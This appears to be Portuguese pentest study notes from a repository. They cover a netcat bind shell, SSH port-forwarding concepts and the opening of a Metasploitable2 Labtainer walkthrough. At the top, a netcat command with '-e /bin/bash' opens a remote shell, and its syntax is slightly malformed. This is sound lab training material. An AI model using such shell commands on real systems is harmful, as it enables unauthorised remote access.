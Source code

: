 Naesse caso o comando seria a contrario ao de revese shell

```shell
nc  10.1.2.34 80
```

 ```shell
nc -lvp 10.1.2.34 80 -e /bin/bash
```
 ### Tunneling Exploits thought SSH
 
 SSH é uma técnica usada para garantir que as informações trocadas entre dois computadores estejam protegidas enquanto viajam pela internet. É como se criássemos um túnel seguro por onde os dados podem passar sem serem vistos por outras pessoas.

 #### Encaminhamento de Porta:
 
 O SSH pode enviar informações de uma porta em um computador para outra porta em outro computador, como uma espécie de canal seguro. Isso é útil quando queremos acessar serviços em outro computador de forma segura, como se estivéssemos lá pessoalmente.

#### Encaminhamento de Porta Local: 

Imagine que você queira acessar um site em um servidor remoto, mas não quer que ninguém veja o que você está fazendo. Com o SSH, você pode fazer isso de forma segura, como se estivesse acessando o site diretamente do seu próprio computador.

####  Encaminhamento de Porta Remota: 

Às vezes, queremos expor serviços que estão rodando no nosso próprio computador para um servidor remoto. Com o SSH, podemos fazer isso de forma segura, protegendo nossos serviços internos de acessos não autorizados.

#### Encaminhamento de Porta Dinâmica: 

Esta técnica cria uma espécie de proxy que nos permite enviar informações de qualquer serviço do nosso computador para um servidor remoto, sem que ninguém possa ver o que está acontecendo. Isso pode ser útil para contornar restrições de redes bloqueadas ou acessar a internet de forma segura em locais públicos.

### Metasploitable2 VM Walkthrough 

O Metasploitable2 é uma máquina virtual intencionalmente vulnerável projetada para fins educacionais e de treinamento em segurança cibernética. Neste walkthrough, vamos explorar passo a passo algumas das vulnerabilidades presentes na Metasploitable2 e aprender a realizar testes de penetração. 
Um trabalho aonde fizemos a instalação de uma maquina vulneravel (Labtainer: Metasploit)
Exercício do labtainer explora o uso do sistema metasploit instalada em um Kali Linux.

Iniciando o Labtainer 

```shell
labtainer metasploit
```
Para verificar a conectividade com a maquina da vítima, executamos o `ping`

```shell
ping 192.168.1.2
```
